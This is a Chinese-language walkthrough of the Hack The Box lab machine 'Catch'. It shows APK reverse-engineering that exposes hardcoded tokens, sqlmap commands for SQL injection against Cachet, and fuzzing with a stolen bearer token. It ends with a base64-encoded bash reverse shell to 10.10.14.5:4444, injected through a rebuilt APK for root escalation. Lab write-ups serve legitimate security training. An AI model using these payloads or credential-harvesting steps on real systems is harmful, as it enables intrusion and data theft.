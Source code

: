 ```yaml
---
title: Catch
date: 2022-04-30 12:14:27
tags: HackThebox
categories: App渗透
---
```


# 前言

这是一台中等难度的靶机，靶机主要考察的是对安卓程序的逆向分析、SQL注入等知识。

# 解题思路

![image](https://image.3001.net/images/20220422/1650588362_6261faca7f826ac5b79fd.png!small)

<!--more-->

# 信息收集

目标主机开放了ssh、web、ppp、udnp等服务

![image.png](https://image.3001.net/images/20220417/1650168048_625b90f0be364d92a31af.png!small)

访问web页面时，发现存在一个APK软件，可以下载下来进行逆向分析。使用的工具是`dex2jar`和`jd-gui`，发现了一个新的域名

![image.png](https://image.3001.net/images/20220417/1650171126_625b9cf66636781305091.png!small)

<!--more-->

这边使用MobSF框架对这个APK软件进行分析，发现存在一个`lets_chat_token`值，这个值非常有用

```
"gitea_token" : "b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0"
"lets_chat_token" : "NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
"slack_token" : "xoxp-23984754863-2348975623103"
```

![image](https://image.3001.net/images/20220418/1650261395_625cfd937e7ca72bfe112.png!small)

回到信息收集时的8000端口，发现是一个`Cachet`的CMS框架

![image](https://image.3001.net/images/20220418/1650261932_625cffac24a26e9366615.png!small)

在搜索引擎上搜索发现，存在Nday的sql注入漏洞

![image](https://image.3001.net/images/20220418/1650261971_625cffd34461bbab2e63b.png!small)

# 漏洞利用

因为常规的post表单注入SQLMAP无法检测到注入点，因此需要使用盲注注入技巧，这个CMS框架的审计可以参考这篇文章[Cachet\_CMS代码审计](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![image.png](https://image.3001.net/images/20220418/1650262210_625d00c2d82aac66290e8.png!small)

对`cachet`数据库进行注入

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbs
```

![image.png](https://image.3001.net/images/20220418/1650275091_625d3313412816336dd7d.png!small)

对users表进行注入

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" -D cachet --tables
```

![image.png](https://image.3001.net/images/20220418/1650275161_625d33596d701e7390f45.png!small)

对users表进行字段值注入

```
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" -D cachet -T users --columns
```

![image.png](https://image.3001.net/images/20220419/1650331261_625e0e7d2796d82f85294.png!small)

继续注入发现了对应用户的账户名和哈希值，但是是使用了Blowfish加密的，不能解密成功

![image](https://image.3001.net/images/20220420/1650416115_625f59f3070f104ec0ee4.png!small)

没有思路了，尝试fuzz一下路径，发现了两个重定向路径

```
ffuf -c -u "http://status.catch.htb:5000/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image.png](https://image.3001.net/images/20220420/1650419771_625f683b8cf6937d0302d.png!small)

使用上面获得了一个token值，可以分别对这些401目录进行网络包请求，`Authorization: bearer`字段是JWT的schema头定义

```
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

可以看到，获取到了很多对应的JSON值信息

![image.png](https://image.3001.net/images/20220422/1650599471_6262262fd9f96498e73e8.png!small)

带着请求头信息，去继续模糊web路径

```
ffuf -c -u "http://status.catch.htb:5000/rooms/61b86b28d984e2451036eb17/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
```

![image.png](https://image.3001.net/images/20220420/1650420792_625f6c386a8ed4e3e9e1f.png!small)

```
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://status.catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages
```

得到了john的用户名和密码`john:E}V!mywu_69T4C}W`

![image.png](https://image.3001.net/images/20220422/1650599421_626225fd843d2a74868a1.png!small)

上传事件时要捕获一个数据包，上传路径和上传参数对应之后发送，可以获取到一个shell终端

![image.png](https://image.3001.net/images/20220420/1650435449_625fa5797a7aec9a4f421.png!small)

初步判断目前在docker容器内，想要进一步提权可能需要进行逃逸操作

![image.png](https://image.3001.net/images/20220420/1650435637_625fa635ba596af60de83.png!small)

# 提权

## www-data提权will

查看.env文件发现存在了数据库名和密码`s2#4Fg0_%3!`

![image.png](https://image.3001.net/images/20220420/1650437095_625fabe7c6383ffd81631.png!small)

成功登录will用户

![image.png](https://image.3001.net/images/20220420/1650437206_625fac5609425282f274a.png!small)

## will提权到root

导入linpeas.sh脚本时，发现了一个存在漏洞的脚本`verify.sh`，这个脚本中存在一个命令注入点。可以通过控制`APP_NAME`的值进行命令注入

![image.png](https://image.3001.net/images/20220420/1650439376_625fb4d0281496cd9156f.png!small)

可以先使用`apktool`工具对apk文件进行源码还原，然后找到`/res/values/strings.xml`文件，并将生成的payload进行替换

```
echo '/bin/bash \-i \>& /dev/tcp/10\.10\.14\.5/4444 0\>&1' \| base64
```

![image](https://image.3001.net/images/20220421/1650534365_626127dd1bfc35c05e192.png!small)

然后使用新的apktool文件生成一个新的apk文件，因为要成功利用必须使用新的安卓文件进行命令执行

```
sudo java -jar apktool\_2.6.1.jar b -f -d catchv1.0 -o catchv2.0.apk
```

![image](https://image.3001.net/images/20220421/1650534437_6261282506ec27e48b3f0.png!small)

并对这个新的apk文件生成一个新的签名

```
keytool -genkey -v -keystore my-release-key.keystore -alias alias\_name -keyalg RSA -keysize 2048 -validity 10000
```

![image](https://image.3001.net/images/20220421/1650534510_6261286ecaa31ca132673.png!small)

最后将新的apk文件下载并上传到`apk_bin`目录上，开启监听获取root用户的权限

![image](https://image.3001.net/images/20220421/1650534624_626128e02e640c2f39419.png!small)

![image](https://image.3001.net/images/20220421/1650534609_626128d1a8c6d981c18a4.png!small)
